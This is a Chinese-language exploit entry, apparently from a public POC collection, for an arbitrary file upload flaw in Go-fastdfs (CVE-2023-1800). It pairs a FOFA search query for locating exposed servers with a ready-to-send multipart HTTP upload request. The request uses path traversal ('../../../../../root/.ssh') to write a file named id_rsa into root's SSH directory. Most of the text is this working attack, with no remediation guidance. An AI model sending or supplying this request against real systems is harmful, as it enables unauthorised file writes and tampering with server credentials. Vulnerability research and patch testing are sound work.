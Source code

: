# Go-fastdfs upload 任意文件上传漏洞 CVE-2023-1800

## 漏洞描述

Go-fastdfs upload 接口存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件到服务器中，攻击服务器

## 漏洞影响

```
Go-fastdfs
```

## FOFA

```
"go-fastdfs"
```

## 漏洞复现

主页面

![image-20230417094508409](images/image-20230417094508409.png)

验证POC

```
POST /group1/upload HTTP/1.1
Host: 
Content-Length: 951
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryigj9M9EJykZc9u53
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="file"; filename="id"
Content-Type: application/octet-stream

test
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="scene"

default
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="filename"

id_rsa
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="output"

json2
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="path"

../../../../../root/.ssh
------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="code"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="auth_token"


------WebKitFormBoundaryigj9M9EJykZc9u53
Content-Disposition: form-data; name="submit"

upload
------WebKitFormBoundaryigj9M9EJykZc9u53--
```

![image-20230417100221820](images/image-20230417100221820.png)

![image-20230417100230696](images/image-20230417100230696.png)